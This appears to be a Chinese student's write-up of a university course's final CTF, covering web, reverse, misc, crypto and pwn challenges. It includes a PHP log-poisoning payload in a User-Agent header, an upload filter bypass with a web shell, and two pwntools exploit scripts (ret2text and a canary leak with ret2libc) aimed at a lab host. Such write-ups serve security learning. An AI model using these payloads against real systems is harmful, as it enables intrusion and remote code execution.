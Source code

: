 ```yaml
---
title: HUST - 网安实践4结课CTF试题
image: "assets/HUST-网安实践4-CTF.jpg"
published: 2024-12-19
description: 2022届网安实践4CTF试题
tags: [CTF, HUST]
category: CTF
draft: false
---
```


由于课程关闭，无法进行复现，因此主要使用语言描述。

## Web1-简单文件上传

看源码发现过滤了php等关键词，但是处理的时候只删除了一次，所以可以进行双写绕过。传入木马文件后蚁剑连接得到flag。

## Web2-文件包含进阶

通过 POST 请求传入 hust=/var/log/apache2/access.log，设置 User-Agent 为 \<?php system("ls")?\>成功看到回显，再次传入\<?php system("cat fl4g.php");?\>，得到flag。

## Reverse1-我的ida怎么坏了

课程原题，不再重复。

## Reverse2-带衣服的程序

看了一眼，发现套了upx壳，使用upx -d脱壳。

## MISC1-我的报告呢

根据提示是pdf文件，在流量包中找到文件，此外还在myname里找到了pdf的密码。打开pdf后没有啥有效信息，一开始以为是wbStego4.3open加密，结果弄不出来，最后把它转成了word后，能得到flag。

![image-2024120215033368](./assets/image-2024120215033368.png)

## MISC2-BB空间

伪加密，修正后解压得到二维码，依据各个文件名确定位置拼出二维码，扫描后得到一串数字，结合题目，在bilibili中搜索，找到一个用户，定位到他的最新视频。发现在视频简介中说明了视频中每个句子对应的符号。下载音频用audacity比对摘写，得到一串摩斯密码，解码后得到flag。

## Crypto1-奇怪的RSA

写完以后跑了一下发现有问题，说是没有逆，猜测是ehephi不互素了，验证了一下发现e和q-1不互素。改一下代码，转化到模p下来求解。

```python
# coding=gbk
import gmpy2
from Crypto.Util.number import *
from math import ceil, sqrt
from random import choice
from gmpy2 import *
e = 65537
p = 7861284553623919323985859832007323477428670056827930254749054233285002288342251190742960221895692365421571559655657906508077200676209583363642503410091987
q = 12190036856294802286447270376342375357864587534233715766210874702670724440751066267168907565322961270655972226761426182258587581206888580394726683112820379
c = 82847779812851057890043530756832889487859832046106654912667214872414017036311911272053848097280235944007447512360040509400105818809700630697569934731411705662409382305951636397690516111461818016905840116265739235873533920070957680510890443904586797027770509200983712548635748894266511224103615999307792279118
n = p*q
# _gcd = gcd(e,(p-1)*(q-1)) # 65537
gcd_q = gcd(e,p-1) # 1

d = inverse(e,p-1)
m = pow(c,d,p)
print(long_to_bytes(int(m)))
```

## Crypto2-AES加密

## PWN1-ret2text

常规栈溢出，程序也给了system和/bin/sh。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

#p = process("./2pwn.bin")
p = remote('172.17.0.15',17831)

binsh = 0x4023FF
system = 0x401B21
pop_rdi_ret = 0x401c73

payload = b'a'*72+p64(pop_rdi_ret)+p64(binsh)+p64(system)
p.sendline(payload)

p.interactive()
```



## PWN2-canary

程序没有给system或/bin/sh，也没说libc版本。所以要利用puts泄露libc版本和libc基址。

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

p = process("./pwn.bin")
elf = ELF("./pwn.bin")
#p = remote('172.17.0.15',14375)

pop_rdi = 0x401343
ret=0x40101a
binsh = 0x404058
system=0x4010b0

payload1=b'a'*72
p.sendlineafter('name?',payload1)

p.recvuntil(b'a'*72)
canary=u64(p.recv(8))-0xa

print(hex(canary))

payload = cyclic(72)+p64(canary)+p64(0)+p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(elf.sym["main"])

p.sendlineafter('stack!',payload)

puts = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts))

libc=LibcSearcher("puts",puts)

libcbase=puts-libc.dump('puts')
system=libcbase+libc.dump('system')
binsh=libcbase+libc.dump('str_bin_sh')
print(hex(system))
print(hex(binsh))

payload=cyclic(72)+p64(canary)+p64(0)+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system)
p.sendlineafter('name?',b'1')
p.sendlineafter('stack!',payload)
p.interactive()
```

